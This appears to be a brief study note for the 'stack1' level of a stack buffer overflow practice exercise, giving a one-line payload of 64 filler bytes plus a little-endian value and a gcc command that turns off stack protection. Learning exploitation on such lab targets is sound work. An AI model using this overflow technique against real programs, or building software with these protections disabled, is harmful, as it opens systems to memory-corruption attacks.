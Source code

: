 #Stack 1

Similar to fist one except it requires to change it to a specific value

```
./stack1 $(python -c 'print "A" * 64 + "\x64\x63\x62\x61"')
```

Notes:

* Little endian!!
* gcc -g -fno-stack-protector -D_FORTIFY_SOURCE=0 -o <executable_file_name> <.c file> to compile the source code in mac (disabling stack canaray and stack protection)

